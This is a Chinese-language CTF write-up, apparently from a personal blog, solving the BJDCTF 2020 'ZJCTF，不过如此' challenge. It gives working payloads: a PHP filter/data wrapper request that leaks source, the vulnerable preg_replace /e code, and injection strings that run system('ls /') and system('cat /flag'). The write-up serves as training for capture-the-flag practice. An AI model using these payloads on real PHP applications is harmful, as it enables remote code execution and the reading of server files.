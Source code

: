 # 【BJDCTF 2020】ZJCTF，不过如此


# [BJDCTF 2020]ZJCTF，不过如此

## 思路
* 进入后是一个GET传参，利用php伪协议得到next.php内容
* next.php是一个php的`preg_replace /e` 模式漏洞利用，执行RCE
* 其中有一些部分需要绕过，最终执行命令得到flag

## EXP
* ?text=data://text/pain,I have a dream&amp;file=php://filter/convert.base64-encode/resource=next.php
* 得到next.php内容

```
&lt;?php
$id = $_GET[&#39;id&#39;];
$_SESSION[&#39;id&#39;] = $id;

function complex($re, $str) {
    return preg_replace(
        &#39;/(&#39; . $re . &#39;)/ei&#39;,
        &#39;strtolower(&#34;\\1&#34;)&#39;,
        $str
    );
}


foreach($_GET as $re =&gt; $str) {
    echo complex($re, $str). &#34;\n&#34;;
}

function getFlag(){
    @eval($_GET[&#39;cmd&#39;]);
}
```

其中的`preg_replace /e` 存在漏洞。

e模式下的preg_replace可以让**第二个参数**&#39;替换字符串&#39;当作代码执行，但是这里第二个参数是**不可变**的。

但因为有这种特殊的情况，正则表达式模式或部分模式两边添加圆括号会将**相关匹配存储到一个临时缓存区**，并且从1开始排序。

而`strtolower(&#34;\1&#34;)`正好表达的就是匹配区的第一个（\\1=\1），从而我们如果匹配可以，则可以将函数实现。
比如我们传入 `?.*={${phpinfo()}}`

```
preg_replace(&#39;/(&#39; . $re . &#39;)/ei&#39;,&#39;strtolower(&#34;\\1&#34;)&#39;,$str);		// 原句

preg_replace(&#39;/(&#39; .* &#39;)/ei&#39;,&#39;strtolower(&#34;\\1&#34;)&#39;,{${phpinfo()}});	// 输入后
```

又因为`$_GET`传入首字母是非法字符时候会把` .`（点号）改成下划线，因此得将`.`换成`\s`

* next.php 页面payload

  ```
  ?\S*=${getFlag()}&amp;cmd=system(&#39;ls /&#39;);
  ?\S*=${getFlag()}&amp;cmd=system(&#39;cat /flag&#39;);
  ```

## 总结
* PHP伪协议
* 正则绕过

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-bjdctf-2020zjctf%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4/  

